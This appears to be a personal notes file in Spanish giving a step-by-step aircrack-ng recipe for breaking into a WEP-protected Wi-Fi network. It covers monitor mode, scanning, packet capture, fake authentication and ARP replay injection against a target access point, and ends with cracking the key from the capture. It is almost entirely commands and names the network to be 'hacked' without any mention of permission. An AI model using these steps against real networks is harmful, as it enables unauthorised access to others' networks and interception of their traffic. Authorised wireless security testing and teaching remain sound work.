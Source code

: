 http://www.aircrack-ng.org/doku.php?id=airmon-ng

sudo -s

Chequear si algún proceso está controlando la wifi:
airmon-ng check wlo1

Matar esos procesos


Poner la interfaz wifi en modo escaneo:
airmon-ng start wlo1

  A lo mejor hace falta sacarla del NetworkManager:
  /etc/NetworkManager/NetworkManager.conf
  [keyfile]
  unmanaged-devices=mac:b2:d4:3c:ef:5b:71

  systemctl restart NetworkManager

  Si no funciona, parar el NetworkManager.

Tras el start debemos ver que nos ha creado una nueva interfaz en modo monitor:
iwconfig
  Veremos la interfaz wlo1mon con "Mode:Monitor"

A veces tengo que hacerlo una segunda vez:
airmon-ng start wlo1mon
  y nos creara ya bien la interfaz en modo monitorizacion en wlo1monmon

Escaneo de redes:
airodump-ng -a wlo1mon


Ver redes WEP:
airodump-ng wlo1mon --encrypt wep

Si queremos guardar el tráfico:
airodump-ng -w /tmp/TMPlinset/dump -a wlo1mon


Colocar la interfaz en un canal determinado:
airodump-ng wlo1mon --channel 11


Testear si podemos atacar a una red:
aireplay-ng -9 -a C0:DF:DE:D4:D7:1D wlo1mon


Capturar paquetes:
airodump-ng -c 11 --bssid C0:DF:DE:D4:D7:1D -w captura wlo1mon

En otra terminal hacemos un fake auth para registrar nuestra MAC y que el AP no nos rechaze las inyecciones del siguiente paso:
aireplay-ng -1 0 -e NOMBRE_RED -a MAC_AP -h NUESTRA_MAC wlo1mon

Escuchar peticiones ARP y reinyectarlas. Aquí necesitamos que haya tráfico en la wifi que queremos hacekar:
aireplay-ng -3 -b MAC_AP -h NUESTRA_MAC wlo1mon


Una vez el inyector esté funcionando, podemos poner el aircrack a intentar conseguir la clave:
aircrack-ng captura-01.cap


Detener modo monitor:
airmon-ng stop wlan0mon
